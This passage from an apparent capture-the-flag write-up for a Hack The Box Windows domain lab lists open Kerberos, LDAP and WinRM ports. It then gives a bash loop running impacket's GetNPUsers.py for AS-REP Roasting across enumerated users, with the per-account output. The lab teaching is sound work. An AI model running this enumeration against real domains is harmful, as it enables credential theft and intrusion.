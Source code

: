 
Here, We also learn that port 88 (kerberos), port 389 (ldap), port 464 (kerberos) and port 3268 (ldap) are in use
Further, winrm is in use (port 5985) which can be carried on with password spray attacks.


## Kerberos Attack - GetNPuser.py 

Typically that requires credentials on the domain to authenticate with. There is an option for an account to have the property “Do not require Kerberos preauthentication” or UF_DONT_REQUIRE_PREAUTH set to true. AS-REP Roasting is an attack against Kerberos for these accounts. I have a list of accounts from my RPC enumeration above. I’ll start without the SM or HealthMailbox accounts:

```
## After gathering a list of user from previous enumeration

for user in $(cat users); do python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done

*] Getting TGT for santi
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for HealthMailboxc3d7722
[-] User HealthMailboxc3d7722 doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for HealthMailbox670628e
[-] User HealthMailbox670628e doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for HealthMailboxb01ac64
[-] User HealthMailboxb01ac64 doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for HealthMailboxfc9daad
[-] User HealthMailboxfc9daad doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for lucinda
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for andy
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for HealthMailbox6ded678
[-] User HealthMailbox6ded678 doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for sebastien
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for HealthMailboxc0a90c9
[-] User HealthMailboxc0a90c9 doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for mark
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for HealthMailbox968e74d
[-] User HealthMailbox968e74d doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for HealthMailbox7108a4e
[-] User HealthMailbox7108a4e doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for HealthMailboxfd87238
[-] User HealthMailboxfd87238 doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for svc-alfresco
```